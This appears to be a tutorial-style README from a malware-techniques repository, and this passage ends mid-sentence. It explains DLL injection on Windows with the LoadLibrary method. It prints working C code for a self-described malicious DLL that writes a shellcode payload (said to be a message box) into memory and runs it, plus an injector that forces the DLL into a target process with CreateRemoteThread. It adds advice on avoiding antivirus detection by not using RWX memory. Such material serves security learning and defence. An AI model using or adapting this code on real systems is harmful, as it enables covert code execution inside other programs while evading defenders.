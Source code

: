 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable.

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.
 
Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```
int main() {
	DWORD pid = find_pid(TARGET);
	printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule); 
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we resolve the address of `LoadLibraryA` function from `kernel32.dll` using